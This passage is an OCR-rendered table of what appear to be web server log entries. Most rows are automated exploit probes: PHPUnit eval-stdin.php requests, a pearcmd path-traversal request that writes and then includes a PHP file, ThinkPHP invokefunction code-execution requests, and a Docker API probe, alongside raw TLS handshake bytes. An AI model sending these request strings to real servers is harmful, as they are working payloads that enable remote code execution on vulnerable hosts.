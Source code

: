 | 107 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x1E\xE8\x00\x04I;\xCE\xF4\xB6\x075O\x12\x8E\x90.\x15\x9C\x9E\x1Eq\xB5\xBFQ\xF3\x81\x01\xC6\xBB\xA01                                                                                                                                                                                                                                                                       |
| 108 |                     1 | GET /containers/json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                    |
| 109 |                     1 | GET /apps/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                            |
| 110 |                     1 | GET /crm/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                             |
| 111 |                     1 | GET /admin/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |
| 112 |                     1 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                      |
| 113 |                     1 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                |
| 114 |                     1 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                       |
| 115 |                     1 | GET /index.php?lang=../../../../../../../../tmp/index1 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                  |
| 116 |                     1 | GET /cms/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                             |
| 117 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03Q\xFC\xC5+\xF5\x1D\xC7\xAD\x16e\xF0\xC39a\x8F\x17\xBF[8\xF0L\xBF\x0E\xBF\xD4\x9A:\x94\x9F#\x19\x8A\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                       |
| 118 |                     1 | \x16\x03\x01\x01\x17\x01\x00\x01\x13\x03\x03:\xBE\xE8\xA0+\x95\x8B\xC1#\xDD\xC2e2\x81\xAF\xD5\xFD5\x0B\xD6\x16\x99X\x85\x00o\xE3\xABb2\xDC\xD7 \x18P\xA5!\x13\xC3.\xA2\xC7Ll\x1Cb\x7F\x06WR\xF5^ N\xCA\x93\x7F\xB3\xE4\x80\xAA\xBB\x08{\xB3\x004\xCC\xA8\xCC\xA9\xC0/\xC00\xC0+\xC0,\xC0\x09\x00\x9E\xCC\xA8\xCC\xAA\x003\x00=\x00\x16\xC0                                                                       |
| 119 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03;\x93\xD5\xFF\xF5\x9B\x97\x19\x16\x09\xA6\xF3\xF0 \xBC\xEF\x88\xFA\xE4R\xC8sX\x7F\xFCPV\x16\x96e%\x09\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                    |